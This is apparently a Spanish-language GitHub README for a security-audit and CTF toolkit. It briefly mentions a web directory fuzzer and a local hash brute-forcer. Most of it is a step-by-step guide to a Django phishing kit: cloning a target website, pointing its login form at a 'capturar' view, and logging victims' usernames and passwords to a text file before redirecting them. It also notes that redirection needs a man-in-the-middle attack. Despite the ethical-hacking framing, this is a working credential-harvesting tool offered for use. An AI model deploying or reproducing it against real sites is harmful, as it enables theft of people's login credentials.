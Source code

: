 # Herramientas para el uso en auditorias de seguridad o ctf(Capture the flag)

## fuzzing
El fuzzer esta echo para encontrar directorios o archivos ocultos en paginas web.

## Brute-Force
1. Breaking passwords:
     Para realizar ataques de fuerza bruta de manera local despues de obtener y identificar un hash de contraseña.

## Social-engineering






# Proyecto de Phishing en Django

## Descripción

Este proyecto te permite clonar páginas web y capturar credenciales mediante un formulario. Es ideal para realizar demostraciones o pruebas de seguridad (ethical hacking) en entornos controlados.

## Requisitos

- Conocimientos básicos de Django.
- Habilidad para modificar plantillas HTML.

## Dependencias

- Python
- Django
- Node.js y npm (para formateo de HTML con Prettier)

## Guía de Uso

Esta herramienta requiere que sepas cómo manipular plantillas HTML y entender el flujo básico de una aplicación Django.

### 1. Clonar una página web

Utiliza el script `clonar.py`, ubicado en la raíz del proyecto, para clonar la página web deseada. Este script solicitará la URL del sitio web y almacenará su contenido en la carpeta `templates`.

### 2. Organizar el HTML

El código HTML copiado de una página web puede venir desordenado y difícil de leer. Para mejorar su legibilidad, usa `Prettier` como formateador de código.

- **Instalación de Node.js y npm** (si no los tienes instalados):

    ```bash
    sudo apt install nodejs npm
    ```

- **Instalación de Prettier**:

    ```bash
    npm install -g prettier
    ```

- **Formateo del archivo HTML**:

    Dirígete a la carpeta `templates` y ejecuta el siguiente comando para formatear el archivo `index.html`:

    ```bash
    prettier --write index.html
    ```

    Tras esto, el archivo será más legible y estará listo para su modificación.

### 3. Modificación de la vista `capturar`

En la vista `capturar`, ubicada en la carpeta principal `phishing`, debes modificar los parámetros según los nombres de los inputs del formulario HTML que has clonado.

- Código de ejemplo para la vista `capturar`:

    ```python
    def capturar(request):
        if request.method == 'POST':
            username = request.POST['{MODIFICA}']  # Nombre del input para el usuario
            password = request.POST['{MODIFICA}']  # Nombre del input para la contraseña
            with open('credenciales.txt', 'a') as data:  # Abre el archivo para agregar credenciales
                data.write(f"[+]Usuario = {username} : [+]Contraseña = {password}\n")
            return HttpResponseRedirect('{URL DONDE DESEES REDIRIGIR A LA VÍCTIMA}')
    ```

    **Nota**: Asegúrate de modificar `{MODIFICA}` con el nombre exacto del atributo `name` de los inputs en tu HTML.

### 4. Modificar el archivo `index.html`

Dentro de la plantilla HTML clonado, debes hacer los siguientes ajustes:

1. **Cambiar la acción del formulario**:

    Localiza la etiqueta `<form>` y ajusta el atributo `action` para que apunte a la URL de la vista `capturar` en Django.

    - *Ejemplo*:

    ```html
    <form action="{% url 'capturar' %}" method="POST">
    ```

2. **Agregar el CSRF token**:

    Asegúrate de incluir el token CSRF de Django para que el formulario sea válido.

    - *Ejemplo*:

    ```html
    <form action="{% url 'capturar' %}" method="POST">
        {% csrf_token %}
    ```

3. **Actualizar los `name` de los inputs**:

    Cambia el valor del atributo `name` en cada input para que coincida con los nombres que has configurado en la vista `capturar`.

    - *Ejemplo*:

    ```html
    <input type="text" name="username" placeholder="Usuario">
    <input type="password" name="password" placeholder="Contraseña">
    ```

    O ajusta la vista para coincidir con los nombres existentes de los inputs en tu formulario.

### 5. Modificar el archivo `settings.py`

Para poder compartir el proyecto en una red local y ejecutar el servidor, debes agregar la IP de tu red local en la configuración de `ALLOWED_HOSTS` dentro de `settings.py`.

1. Abre `settings.py` y busca la variable `ALLOWED_HOSTS`.
   
2. Agrega la dirección IP de tu red local, por ejemplo:

    ```python
    ALLOWED_HOSTS = ['192.168.1.100']  # Reemplaza con tu IP local
    ```

3. Luego, ejecuta el servidor de Django con:

    ```bash
    python manage.py runserver 0.0.0.0:8000
    ```

    Esto permitirá acceder al proyecto desde otros dispositivos en la misma red local.

### Nota sobre redireccionamientos

Puedes redirigir a la víctima solo si estás ejecutando un ataque de Man-in-the-Middle (MITM), lo cual permite interceptar el tráfico de la víctima y redirigirla a tu página clonada.


